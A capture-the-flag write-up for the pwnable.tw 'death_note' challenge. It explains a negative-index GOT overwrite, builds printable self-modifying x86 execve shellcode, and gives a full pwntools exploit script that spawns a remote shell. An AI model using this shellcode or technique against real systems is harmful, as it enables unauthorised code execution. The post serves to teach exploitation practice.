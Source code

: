 ```yaml
---
layout: post
title:  "death_note [pwnable.tw]"
date:   2021-05-30 19:45:00 +0530
categories: pwn shellcode
---
```

The binary given is a 32-bit ELF. Here is its checksec output:

![checksec-output](/images/death_note/checksec.png)

The challenge description is: **Write the shellcode on your Death Note.**
It is clear from this that its a shellcode challenge. Now time to hunt for the bug!

Using ghidra to decompile, it can be seen that there is a bug in the add_note function:
{% highlight c %}
void add_note(void)

{
  int iVar1;
  int iVar2;
  char *pcVar3;
  int in_GS_OFFSET;
  char local_60 [80];
  int local_10;

  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  printf("Index :");
  iVar1 = read_int();
  if (10 < iVar1) {	// Bug here O_O
    puts("Out of bound !!");
    exit(0);
  }

  printf("Name :");
  read_input(local_60,0x50);
  iVar2 = is_printable(local_60); // Checks if shellcode is printable
  if (iVar2 != 0) {
    pcVar3 = strdup(local_60);
    *(char **)(note + iVar1 * 4) = pcVar3; // input pointer stored at note+index*4
    puts("Done !");
    if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
      __stack_chk_fail();
    }
    return;
  }
  puts("It must be a printable name !");
  exit(-1);
}
{% endhighlight %}<br/>

The program checks only if our offset is greater than 10, it doesn't check for negative values. Also it can be seen that our input is constrainted to be only printable ASCII characters (numbers, symbols, uppercase & lowercase alphabets)

The GOT addresses are at a negative offset from **note**, so providing a specific negative index in add_note will overwrite GOT with a pointer to our input on heap. puts is called after the overwrite so overwriting puts will work in this case. Calculating the offset of puts from note we get `-64`, so our index will be -16.

Now the fun part - shellcode! Since shellcode is limited to printable characters, we have pop, push & certain xor instructions. Also there is a pointer to our shellcode in edx. 

My plan is to call an execve syscall. I started off by pushing "/bin///sh" on stack and moving it to ebx.
{% highlight c %}
push 0x68
push 0x732f2f2f
push 0x6e69622f
push esp
pop ebx
{% endhighlight %}<br/>
The next obstacle is that `int 0x80` which is essential to make a syscall assembles to "\xcd\x80" which is not printable. To workaround this, the shellcode can be made such that it uses xor to alter the last 2 bytes of input to 0xcd & 0x80. Hence last two bytes of shellcode will be " +" which on xoring induvidually with 0x53 & 0x70 give "\xcd\x80".
{% highlight c %}
push edx
pop eax
push 0x53
pop edx
sub byte ptr [eax+39],dl
sub byte ptr [eax+40],dl
push 0x70
pop edx
xor byte ptr [eax+40],dl
{% endhighlight %}<br/>
Finally eax,ecx and edx have to be set to appropriate values in order to perform the execve syscall.
{% highlight c %}
push ecx
pop eax
push ecx
pop edx
xor al,43
xor al,32
{% endhighlight %}<br/>
Now the shellcode is done! Time to finish off the exploit.
{% highlight python %}
#!/usr/bin/env python2
from pwn import *

exe = ELF("./death_note")
context.binary = exe
context.terminal = "kitty sh -c".split()
IP, PORT = "chall.pwnable.tw", 10201

global io
breakpoints = '''
break *0x80487ea
continue
'''
if len(sys.argv) > 1 and sys.argv[1] == "-r":
    io = remote(IP, PORT)
elif len(sys.argv) > 1 and sys.argv[1] == "-ng":
    io = process(exe.path)
else:
    io = gdb.debug(exe.path, gdbscript=breakpoints)


def s(a): return io.send(a)
def sa(a, b): return io.sendafter(a, b)
def sl(a): return io.sendline(a)
def sla(a, b): return io.sendlineafter(a, b)
def re(a): return io.recv(a)
def reu(a): return io.recvuntil(a)
def rl(): return io.recvline(False)

def add_note(offset,payload):
    reu(" :")
    s("1")
    reu(" :")
    s(str(offset))
    reu(" :")
    sl(payload)

def is_printable(shellcode):
    for i in range(len(shellcode)):
        if ord(shellcode[i]) < 0x1f or ord(shellcode[i]) > 0x7f:
            return False
    return True

shellcode = asm('''
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    push esp
    pop ebx

    push edx
    pop eax
    push 0x53
    pop edx
    sub byte ptr [eax+39],dl
    sub byte ptr [eax+40],dl
    push 0x70
    pop edx
    xor byte ptr [eax+40],dl
  
    push ecx
    pop eax
    push ecx
    pop edx
    xor al,43
    xor al,32
''')+"\x20\x43"

assert is_printable(shellcode)

add_note(-16,shellcode)

io.interactive()
{% endhighlight %}